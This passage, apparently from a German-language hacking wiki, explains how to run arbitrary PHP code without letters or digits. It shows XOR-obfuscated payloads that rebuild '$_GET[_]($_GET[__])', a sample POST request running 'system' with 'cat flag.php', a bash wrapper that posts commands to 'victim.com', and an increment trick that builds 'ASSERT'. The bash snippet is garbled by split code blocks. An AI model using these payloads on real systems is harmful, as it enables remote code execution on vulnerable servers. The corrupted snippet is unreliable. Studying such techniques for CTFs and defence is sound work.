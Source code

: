 Laut [**diesem Bericht**](https://mgp25.com/ctf/Web-challenge/) ist es möglich, auf diese Weise einen einfachen Shellcode zu generieren:
```php
$_="`{{{"^"?<>/"; // $_ = '_GET';
${$_}[_](${$_}[__]); // $_GET[_]($_GET[__]);

$_="`{{{"^"?<>/";${$_}[_](${$_}[__]); // $_ = '_GET'; $_GET[_]($_GET[__]);
```
Also, wenn Sie **willkürlichen PHP-Code ohne Zahlen und Buchstaben ausführen können**, können Sie eine Anfrage wie die folgende senden, um diese Nutzlast auszunutzen, um willkürlichen PHP-Code auszuführen:
```
POST: /action.php?_=system&__=cat+flag.php
Content-Type: application/x-www-form-urlencoded

comando=$_="`{{{"^"?<>/";${$_}[_](${$_}[__]);
```
Für eine detailliertere Erklärung siehe [https://ctf-wiki.org/web/php/php/#preg\_match](https://ctf-wiki.org/web/php/php/#preg_match)

### XOR Shellcode (innerhalb von eval)
```bash
#!/bin/bash

if [[ -z $1 ]]; then
echo "USAGE: $0 CMD"
exit
fi

CMD=$1
CODE="\$_='\
```

```php
lt;>/'^'{{{{';\${\$_}[_](\${\$_}[__]);" `$_='
```

```php
lt;>/'^'{{{{'; --> _GET` `${$_}[_](${$_}[__]); --> $_GET[_]($_GET[__])` `So, the function is inside $_GET[_] and the parameter is inside $_GET[__]` http --form POST "http://victim.com/index.php?_=system&__=$CMD" "input=$CODE"
```
### Perl ähnlich
```php
<?php
$_=[];
$_=@"$_"; // $_='Array';
$_=$_['!'=='@']; // $_=$_[0];
$___=$_; // A
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__; // S
$___.=$__; // S
$__=$_;
$__++;$__++;$__++;$__++; // E
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // R
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$___.=$__;

```